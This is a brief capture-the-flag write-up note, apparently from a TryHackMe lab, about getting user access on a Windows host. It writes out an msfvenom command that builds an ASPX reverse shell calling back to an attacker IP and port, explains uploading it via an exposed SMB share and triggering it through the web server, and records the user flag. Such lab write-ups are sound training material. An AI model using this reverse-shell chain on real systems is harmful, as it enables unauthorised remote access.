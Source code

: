 so it seems like the smb is used up in the website to serve the files 
so put a payload via smb and call from web ..

## exploit 
`msfvenom -p windows/x64/shell_reverse_tcp LHOST=10.17.4.208 LPORT=9001 -f aspx -o shell.aspx `

![[Pasted image 20210529133102.png]]

upload and call the shell http://10.10.110.2:49663/nt4wrksv/shell.aspx

![[Pasted image 20210529133222.png]]


got user

![[Pasted image 20210529133350.png]]

user === THM{fdk4ka34vk346ksxfr21tg789ktf45}
